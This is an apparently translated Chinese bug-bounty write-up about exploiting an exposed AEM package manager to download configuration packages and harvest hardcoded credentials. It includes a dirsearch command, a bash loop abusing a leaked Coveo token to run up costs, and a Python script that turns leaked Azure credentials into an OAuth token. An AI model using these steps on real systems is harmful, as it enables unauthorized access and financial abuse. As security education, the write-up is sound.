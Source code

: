 #  通过高效的侦察发现关键漏洞接管整个IT基础设施   
白帽子左一  白帽子左一   2025-01-12 04:00  
  
扫码领资料  
  
获网安教程  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSFbaUgVwdsriauB77CgQS8lyBNAxtx9IMqJQdhuuoITunu8A5Gp7kFjF7BvEXSaLMuDTYhnu7Nicghg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
**来****Track安全社区投稿~**  
  
**赢千元稿费！还有保底奖励~（https://bbs.zkaq.cn）**  
  
**在这篇文章中，** 我将深入探讨我是如何通过详细分析和利用暴露的端点、硬编码的凭据以及配置错误的访问控制，成功获取目标组织关键IT基础设施和云服务访问权限的全过程。  
  
我们先提到目标网站的名称   
**https://*sub.domain*.com**[1]  
  
在我的**主动侦察**中，我发现目标**使用 AEM 作为内容管理系统 (CMS)**，并且**由 Java 驱动**。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xicsFElcFL2wUePVLdZqdXXNFJOZ7FRnJVac2LkQOR88JsZrSP8nY4Tw/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
首先，我**收集了用于 AEM CMS 和 JSP 的字典**以及**端点**。  
  
然后，我进行了**模糊测试 (fuzzing)**，并发现了一些有用的端点。  
```
/crx/packmgr/index.jsp
/etc.feed.xml
/crx/bin.ext.json
/crx/.ext.infinity.json
```  
  
当我发现 **/etc.feed.xml** 时，找到了相关内容。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0x9AfJlD7BrF9e5hX5ZtRsva1pbUPKgHAGs8ywP6vsBbAjcibjX7C9d9w/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
然后引起我注意的是这个 URL：  
  
**https://sub.domain.com/etc/packages.feed.xml**[2] **发现了许多**包，这些包的格式如下：  
```
https://sub.domain.com/etc/packages/{groupOfPackage}/{nameOfPackage}.zip
```  
  
访问任何符合该格式的 URL **都可以下载任意包**， 但在深入研究这些包后，**没有发现任何有趣的内容**。  
  
然后再次回到使用 **JSP 字典**对有趣的端点进行模糊测试。  
```
dirsearch -u https://sub.domain.com/crx/packmgr/ --random-agent -i 200 -w jsp.txt
```  
  
发现了这个端点：https://sub.domain.com**/crx/packmgr/service.jsp**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xeqbtpDJXnyF5qVy1edhkYl1ZbEaMam1Mnl3g0oTUHeHib76T8E90z8Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
img  
  
我请我的朋友协助执行操作。然而，我们发现用户是 **anonymous**（匿名用户），除了通过添加 cmd 参数列出所有包之外，无法执行任何其他操作。  
```
https://sub.domain.com/crx/packmgr/service.jsp?cmd=ls
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0x9ZgD2fX5mPEp2STdW8iasaWhapb4YrQO1kPgk8oujiaq7vjF4ftZpAkQ/640?wx_fmt=png&from=appmsg "")  
  
img  
  
**检索到约 1173 个包和约 100 个配置包。**  
  
我**想起**可以使用以下格式下载这些包：  
```
https://sub.domain.com/etc/packages/{groupOfPackage}/{nameOfPackage}.zip
```  
  
于是，我编写了一个简单的脚本来下载所有包。然后，我深入研究了**配置包**，**发现了大量硬编码的凭据**。  
  
**1- 泄露了所有作者的邮箱**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xejQD8jqPrUMgVQRYuyw6oxPlF5k6crciaibGKJQE8KQT5d2heMqbLZZw/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
**2- Covo 服务配置（付费服务）**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xmbJ79ZcvSO2stR7WCkOQ4r9hbxNGCGMCBZLe0BnMS5CQWwtxjuSic3A/640?wx_fmt=png&from=appmsg "null")  
  
img  
```
for i in {1..10000}; do
  curl -X GET "https://platform.cloud.coveo.com/rest/search/v2?organizationId={clientId}&q=*" \
    -H "Authorization: Bearer {accesstoken}" \
    -H "Content-Type: application/json";
done
```  
  
**我可以通过使用简单的 bash 脚本让组织损失大量资金，因为这个访问令牌是有效的。**  
  
**3- 有效的凭据用于** API 管理并提供对托管在 https://**sub3****.domain.com** 上的仓库的访问。**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0x2d2DCtiaORgibEXLQRBib9zokic67HOUG14UKOlE6KjJMLPatlWma642tg/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xRzQVTSp3wHjAIic9pibHvibBRjGRYKibsy7r6ibVPcryxgPyPLicMhrtibfTw/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
4- **ARIA-azure-凭据**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xiaKpCKcwzFmxTw5eoa4dEhyNk8F27ib3uNp4SkLia5NCOFQfFs91vbjhg/640?wx_fmt=png&from=appmsg "null")  
  
img  
```
import requests

# Define the authentication parameters
tenant_id = "{tenant_id}"
client_id = "{client_id}"
client_secret = "{client_secret}"
scope = "https://sub.cloudapp.domain.com/.default"

# URL to get the OAuth token
token_url = f"https://login.microsoftonline.com/{tenant_id}/oauth2/v2.0/token"

# Define the request payload
payload = {
    "grant_type": "client_credentials",
    "client_id": client_id,
    "client_secret": client_secret,
    "scope": scope
}

# Make a POST request to get the token
response = requests.post(token_url, data=payload)

# Check if the request was successful
if response.status_code == 200:
    # Parse the JSON response
    token_response = response.json()
    access_token = token_response.get("access_token")
    print("Access Token:", access_token)
else:
    # If the request failed, print the error
    print("Failed to get the access token:", response.status_code, response.text)
```  
  
这个 Python 脚本使用凭据检索 OAuth 访问令牌，以便与 **api** 交互，访问 https://sub.cloudapp.domain.com/  
  
5-   
**ServiceNow**[3]（IT 服务管理）  
  
通过使用这些**泄露的凭据**，我拥有所有**权限（创建、删除、编辑）**。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xxmhIOIlCplIEJ0MxrA0PwyhLW1sZcyfvsNynt8lQddeHr1s9ia7fHbA/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xkpZ2KYG387Hcia89MeEFHibTmmUaxXhamuBArqR70NG3mra6M4zNic4Dg/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0xrzHFbkWUQFLLaEXKNibx3gbMAEG7NZnicKiah7Zrx9xar8ImhzLHCg8xw/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSHAlJJM5Qhs6swrwrHGPC0x7AyxxWnicXVgXX6gmJianJu3FiandM2gl6HhmZF7HVicsiaiaxtJwY0CxUpQ/640?wx_fmt=png&from=appmsg "null")  
  
img  
  
**声明：⽂中所涉及的技术、思路和⼯具仅供以安全为⽬的的学********习交流使⽤，任何⼈不得将其⽤于⾮法⽤途以及盈利等⽬的，否则后果⾃⾏承担。所有渗透都需获取授权！**  
  
**如果你是一个网络安全爱好者，欢迎加入我的知识星球：zk安全知识星球,我们一起进步一起学习。星球不定期会分享一些前沿漏洞，每周安全面试经验、SRC实战纪实等文章分享，微信识别二维码，即可加入。**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/CBJYPapLzSFIJlRFYoItlJDrScxuTPmfnqibC1ApJ2OKh5sF41qicCo5AvQ4icuG8kbqQxZ5HVypvJ8jZDzsmD37Q/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
